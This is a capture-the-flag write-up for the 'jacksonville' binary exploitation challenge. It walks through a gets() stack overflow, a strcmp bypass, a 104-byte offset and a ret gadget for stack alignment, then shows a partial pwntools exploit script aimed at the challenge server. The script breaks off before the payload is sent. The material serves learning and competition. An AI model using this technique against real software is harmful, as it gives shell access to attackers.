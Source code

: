 
## Analysis and Approach

1. **Initial Analysis:**
    - `checksec jacksonville` reveals `No canary found` and `No PIE`, creating ideal conditions for a buffer overflow attack.
    - `strings` and `nm` uncover the existence of a `win()` function at address `0x4011f6`, which calls `system("/bin/sh")`. This is our target.
2. **Vulnerability Analysis in GDB:**
    - Disassembling the `vuln` function shows it uses `gets()` to read user input into a `0x60` (96-byte) buffer on the stack, which is the vulnerability.
    - After `gets()`, a code block compares the user input with the string `"Jaguars"`. However, the comparison doesn't start from the beginning of the buffer but from `buffer + 6`. If this comparison fails, the program calls `exit()`, rendering our return address overwrite useless.
    - **Requirement 1:** The payload must contain the string `"Jaguars\\x00"` starting at the 7th byte to pass the `strcmp` check.
3. **Determining the Offset:**
    - The buffer size is `0x60` (96 bytes). Adding the 8 bytes for the saved `rbp`, the offset to overwrite the return address is **104 bytes**.
4. **Discovering the Stack Alignment Trap:**
    - A simple payload that jumps directly to `win()` works in some local environments but crashes (resulting in an `EOFError`) on the remote challenge server.
    - The cause is that modern `libc` versions require the stack to be 16-byte aligned before calling functions like `system()`. The `call` from `main` to `vuln` misaligns the stack by 8 bytes.
    - **Requirement 2:** We need to fix the stack alignment before jumping to the `win` function.
5. **Building the ROP Chain:**
    - To fix the alignment, we add a simple `ret` gadget to our ROP chain. The first `ret` (at the end of `vuln`) will jump to this `ret` gadget.
    - The execution of the `ret` gadget pops 8 bytes from the stack, moving the stack pointer (`RSP`) back to a 16-byte boundary.
    - The second `ret` (the gadget itself) will then jump to the address of the `win()` function.

---

## Exploit Script

The following `pwntools` script builds and sends the final payload to solve the challenge.

```python
# solve.py
from pwn import *

# Set up the environment
elf = ELF("./jacksonville")
context.binary = elf

# Connect to the remote server
p = remote("chal.sunshinectf.games", 25602)

# Receive the initial prompt
p.recvuntil(b"> ")

# Find a simple "ret" gadget for stack alignment.
# Can be found with ROPgadget or by using a valid address like the start of _init
ret_gadget = 0x40101a

# Build the payload
# 1. Prefix to bypass strcmp (6 bytes of junk + "Jaguars" + null byte)
prefix = b"A" * 6 + b"Jaguars\\0"

# 2. Padding to fill up to the return address
# Total offset is 104.
padding = b"B" * (104 - len(prefix))

```